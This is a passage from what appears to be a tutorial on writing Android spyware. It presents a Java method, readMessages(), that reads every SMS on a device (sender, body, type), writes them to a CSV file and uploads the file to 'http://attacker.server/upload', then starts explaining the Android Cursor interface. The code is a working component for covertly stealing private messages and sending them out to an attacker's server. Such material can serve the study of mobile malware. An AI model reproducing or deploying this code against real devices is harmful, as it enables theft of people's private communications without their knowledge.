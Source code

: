 If you look closely, you can see a reference to a `readMessages()` method. We will create and define this method next.

```java
    protected void readMessages() throws IOException {
        String addressCol = Telephony.TextBasedSmsColumns.ADDRESS;
        String msgCol = Telephony.TextBasedSmsColumns.BODY;
        String typeCol = Telephony.TextBasedSmsColumns.TYPE;

        String[] projection = {addressCol, msgCol, typeCol};

        Cursor cursor = getContentResolver().query(Telephony.Sms.CONTENT_URI, projection, null, null, null);

        FileWriter write = new FileWriter(storage_path);
        write.append("Address, Body, Type\n");

        int addressidx = 0;
        if (cursor != null) {
            addressidx = cursor.getColumnIndex(addressCol);
        }
        int msgidx = 0;
        if (cursor != null) {
            msgidx = cursor.getColumnIndex(msgCol);
        }
        int typeidx = 0;
        if (cursor != null) {
            typeidx = cursor.getColumnIndex(typeCol);
        }

        if (cursor != null) {
            while (cursor.moveToNext()) {
                String address = cursor.getString(addressidx);
                String msg = cursor.getString(msgidx);
                String type = cursor.getString(typeidx);
                write.append(address + ", " + msg + ", " + type + "\n");
            }
        }
        write.flush();
        write.close();
        if (cursor != null) {
            cursor.close();
        }
        uploadFile("http://attacker.server/upload", storage_path);
    }
```
There are a few different things to explain here.

First, what is a Cursor?

As the Android API defines it:

> This interface provides random read-write access to the result set returned by a database query.
